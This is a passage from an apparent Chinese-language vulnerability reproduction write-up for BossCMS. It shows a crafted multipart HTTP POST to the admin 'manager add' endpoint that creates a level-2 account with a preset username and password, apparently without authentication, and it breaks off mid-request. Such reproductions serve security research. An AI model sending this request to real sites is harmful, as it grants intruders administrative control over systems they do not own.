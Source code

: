 ## 漏洞复现

构造请求包：

[![](assets/1701222510-326824e37cb78e56e46b6969430b493b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128162041-04f72f8a-8dc7-1.png)

```plain
POST /admin/?mold=manager&part=manager&func=add HTTP/1.1
Host: bosscms
Content-Length: 1959
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://bosscms
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryB067fgIWBKtHI4Gy
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://bosscms/admin/?mold=manager&part=manager&func=edit
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="username"

123
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="password"

123
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="passwords"

123
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="level"

2
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="department"
```